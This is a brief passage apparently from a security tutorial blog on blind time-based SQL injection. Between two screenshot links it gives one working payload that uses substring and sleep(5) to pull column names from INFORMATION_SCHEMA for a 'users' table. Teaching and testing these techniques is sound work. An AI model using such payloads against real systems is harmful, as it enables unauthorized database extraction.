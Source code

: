 [![sqlinjectblindsleep22](/images/sqlinjectblindsleep22.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectblindsleep22.png)

```sql
' or 1=1 AND substring((SELECT column_name FROM INFORMATION_SCHEMA.COLUMNS WHERE table_name='users' LIMIT 2,1),8,1) = 'd' AND sleep(5)-- -
```

[![sqlinjectblindsleep23](/images/sqlinjectblindsleep23.png){:target="_blank"}](https://raw.githubusercontent.com/NPTG24/nptg24.github.io/master/images/sqlinjectblindsleep23.png)
